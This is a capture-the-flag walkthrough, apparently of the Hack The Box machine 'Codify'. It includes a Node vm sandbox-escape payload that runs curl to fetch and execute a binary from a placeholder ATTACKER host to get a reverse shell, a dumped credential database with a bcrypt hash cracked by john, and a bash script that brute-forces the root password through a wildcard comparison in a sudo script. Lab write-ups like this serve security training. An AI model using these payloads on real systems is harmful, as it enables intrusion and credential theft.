




# Codify - Walkthrough


## TARGET : 10.10.11.239
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.11.239`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

We need to add `codify.htb` to our `/etc/hosts` file.



`gobuster dir -u codify.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`



## Reverse Shell

There is a `editor` page that allows us to run commands in `javascript`. We can use this to get a reverse shell.

```javascript
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('curl -fsSL http://ATTACKER:13339/termite/ATTACKER:13337 -o /tmp/.FjbUtmYf && chmod +x /tmp/.FjbUtmYf && /tmp/.FjbUtmYf').toString()`);
console.log(xyz);
```



## Privilege Escalation

With linpeas we can see that there is a interesting file located at `/var/www/contact/tickets.db`, it might contain some credentials.

```
svc@codify:~$ cat /var/www/contact/tickets.db 
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!opensvc@codify:~$ 
svc@codify:~$ 
```

We can use `john` to crack the hashed password `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2` of the user `joshua`.

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`



We got the decrypted password `spongebob1`

Now we can login as `joshua` and get the user flag.

```
svc@codify:~$ su joshua
Password:
joshua@codify:/home/svc$ cat user.txt
255187af35a5e4b36149e6f8589d7f07
```

Let's find a way to get `root` access, we can use `sudo -l` to see what commands we can run as `root`.

```bash
joshua@codify:~$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can see that we can run `/opt/scripts/mysql-backup.sh` as `root`, let's see what it does.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmation failed!
```

It asks for a password, let's see if we can find it in the filesystem.

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

It looks like it's reading the password from `/root/.creds`, let's see if we can brute force it.

```
#!/bin/bash

begin=0
str=""

echo "Result:"
while [ 1 ]; do
    for letter in {A..Z} {a..z} {0..9}; do
        if [ $begin = 0 ]; then
            echo "$letter*"
            res=$(echo "$letter*" | sudo -u root /opt/scripts/mysql-backup.sh)
            val=$?
            if [ $val = 0 ]; then
                echo "confirmed"
                begin=1
                str+=$letter
            fi
        else
            echo "$str$letter*"
            res=$(echo "$str$letter*" | sudo -u root /opt/scripts/mysql-backup.sh)
            val=$?
            if [ $val = 0 ]; then
                str="$str$letter"
                begin=1
            fi
        fi

    done
done
```

This script is going to brute force the password, by trying every possible combination of letters and numbers. It will print the password as soon as it finds it.

finally we get the `root`'s password `kljh12k3jhaskjh12kjh3`

```
joshua@codify:~$ su root
Password: 
root@codify:/home/joshua# cat /root/root.txt 
e0de03bea80bcf9d193fdace2155ed8b
root@codify:/home/joshua# 
```